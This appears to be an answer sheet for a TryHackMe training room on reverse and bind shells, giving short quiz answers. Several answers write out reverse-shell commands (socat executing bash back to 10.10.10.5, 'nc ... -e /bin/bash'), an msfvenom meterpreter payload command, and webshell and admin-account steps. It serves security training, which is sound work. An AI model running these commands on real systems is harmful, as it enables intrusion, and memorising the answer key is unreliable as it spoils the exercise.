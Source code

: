 # What the Shell?

- Read and understand the introduction.

	  no answer needed

- Read the above and check out the links!

	  no answer needed

- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

	- `R`

- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

	- `N`

- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

	- `T`

- Which option tells netcat to listen?

	- `-l`

- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	- `nc 10.10.10.11 8080`

- How would you change your terminal size to have 238 columns?

	- `stty cols 238`

- What is the syntax for setting up a Python3 webserver on port 80?

	- `sudo python3 -m http.server -p 80`

- How would we get socat to listen on TCP port 8080?

	- `TCP-L:8080`

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	- `socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0`

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	- `socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- What command can be used to create a named pipe in Linux?

	- `mkfifo`

- Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

	  no answer needed

- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

	  no answer needed

- Which symbol is used to show that a shell is stageless?

	- `_`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

- What command can be used to start a listener in the background?

	- `exploit -j`

- If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

	- `sessions 10`

- Read the WebShells information.

	  no answer needed

- Read the above information

	  no answer needed

- Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

	  no answer needed
- Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

	  no answer needed

- Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

	  no answer needed

- Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

	  no answer needed

- Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.

	  no answer needed

- Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

	  no answer needed

- Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

	  no answer needed
- The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

	  no answer needed

- Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

	  no answer needed

- Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

	  no answer needed

- Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

	  no answer needed

- No Answer Required

	  no answer needed

- No answer required

	  no answer needed